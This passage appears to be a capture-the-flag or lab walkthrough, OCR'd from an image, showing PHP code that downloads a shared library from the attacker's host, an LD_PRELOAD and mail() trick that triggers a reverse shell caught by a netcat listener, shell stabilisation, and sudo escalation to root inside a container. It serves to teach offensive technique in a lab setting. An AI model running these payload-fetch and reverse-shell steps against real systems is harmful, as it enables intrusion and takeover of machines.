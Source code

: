     $ch = curl_init('http://10.14.101.76/shell.so');
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    file_put_contents('/tmp/shell.so', curl_exec($ch));
    curl_close($ch);

We observed the download request on our HTTP server:
Bash

    $ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.131.204 - - [27/Apr/2025 13:47:10] "GET /shell.so HTTP/1.1" 200 -

Finally, we set LD_PRELOAD to our uploaded shared library and invoked mail to trigger the reverse shell:
PHP

    putenv('LD_PRELOAD=/tmp/shell.so');
    mail('a','a','a','a');

This resulted in a reverse shell connection as the www-data user within the container. We then stabilized the shell for better interaction:
Bash

    $ nc -lvnp 443
    listening on [any] 443 ...
    connect to [10.14.101.76] from (UNKNOWN) [10.10.131.204] 46126
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@bb28d5969dd5:/var/www/html$ script -qc /bin/bash /dev/null
    www-data@bb28d5969dd5:/var/www/html$ ^Z
    $ stty raw -echo; fg
    www-data@bb28d5969dd5:/var/www/html$ export TERM=xterm
    www-data@bb28d5969dd5:/var/www/html$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data),27(sudo)

## User Flag (Container Escape)
Container Escape

Checking sudo privileges for www-data within the container revealed full access with NOPASSWD:
Bash

    www-data@bb28d5969dd5:/var/www/html$ sudo -l
    Matching Defaults entries for www-data on bb28d5969dd5:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
        use_pty
    
    User www-data may run the following commands on bb28d5969dd5:
        (ALL : ALL) ALL
        (ALL : ALL) NOPASSWD: ALL
    
    We escalated to root within the container:
    Bash
    
    www-data@bb28d5969dd5:/var/www/html$ sudo su -
    root@bb28d5969dd5:~# id
    uid=0(root) gid=0(root) groups=0(root)
